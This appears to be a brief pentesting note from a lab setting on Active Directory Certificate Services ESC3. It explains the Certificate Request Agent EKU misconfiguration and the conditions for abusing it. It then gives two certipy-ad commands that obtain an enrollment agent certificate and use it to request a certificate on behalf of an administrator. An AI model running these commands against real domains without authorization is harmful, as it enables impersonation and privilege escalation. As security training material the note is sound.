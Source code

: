 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview

An ESC3 vulnerable template permits the issuance of certificates on behalf of any user, enabling the potential impersonation of other users. This vulnerability arises because the template includes the Certificate Request Agent EKU. Specifically, the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) grants the ability to request certificates on behalf of other principals.

To exploit this misconfiguration, the Certificate Authority (CA) must have at least two templates that meet the following conditions:

1. The template allows a low-privileged user to enroll in an enrollment agent certificate.
2. The Approval Manager is disabled.
3. Authorized signatures are not required.
4. The certificate template defines the Certificate Request Agent EKU, enabling the request of other certificate templates on behalf of other principals.

# Abusing ESC3 Certificates

## Certipy:
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template' 
- `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'  -on-behalf-of 'Megacorpone\Xadmin' -pfx 'xadmin.pfx'